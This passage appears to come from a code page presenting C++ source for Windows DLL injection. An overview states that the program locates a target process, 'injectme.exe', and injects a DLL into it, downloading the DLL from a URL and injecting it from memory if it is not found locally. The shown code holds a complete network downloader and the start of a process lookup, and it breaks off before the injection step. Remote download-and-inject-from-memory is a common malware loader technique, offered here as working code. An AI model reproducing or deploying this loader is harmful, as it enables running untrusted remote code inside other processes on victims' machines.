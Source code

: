 ### **C++ Code Overview**

1. **Find the Process ID**: It looks for the `injectme.exe` process.
2. **DLL Injection**: It attempts to inject `myinjection.dll` from a specified path. If the DLL is not found locally, it downloads it from a specified URL and injects it from memory.

```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <wininet.h>
#include <iostream>
#include <fstream>

#pragma comment(lib, "wininet.lib")

bool DownloadDLLFromURL(const char* url, unsigned char** buffer, size_t* bufferSize) {
    HINTERNET hInternet = InternetOpenA("WinINet Example", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (!hInternet) return false;

    HINTERNET hConnect = InternetOpenUrlA(hInternet, url, NULL, 0, INTERNET_FLAG_RELOAD, 0);
    if (!hConnect) {
        InternetCloseHandle(hInternet);
        return false;
    }

    DWORD bytesRead = 0;
    DWORD totalBytesRead = 0;
    const DWORD bufferSizeIncrement = 4096;
    *bufferSize = 0;
    *buffer = nullptr;

    do {
        *buffer = (unsigned char*)realloc(*buffer, *bufferSize + bufferSizeIncrement);
        if (!*buffer) {
            InternetCloseHandle(hConnect);
            InternetCloseHandle(hInternet);
            return false;
        }

        if (!InternetReadFile(hConnect, *buffer + *bufferSize, bufferSizeIncrement, &bytesRead)) {
            free(*buffer);
            *buffer = nullptr;
            InternetCloseHandle(hConnect);
            InternetCloseHandle(hInternet);
            return false;
        }

        *bufferSize += bytesRead;
        totalBytesRead += bytesRead;

    } while (bytesRead > 0);

    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);
    return totalBytesRead > 0;
}

DWORD FindProcessId(const std::string& processName) {
    PROCESSENTRY32 processInfo;
    processInfo.dwSize = sizeof(processInfo);

    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) return 0;
```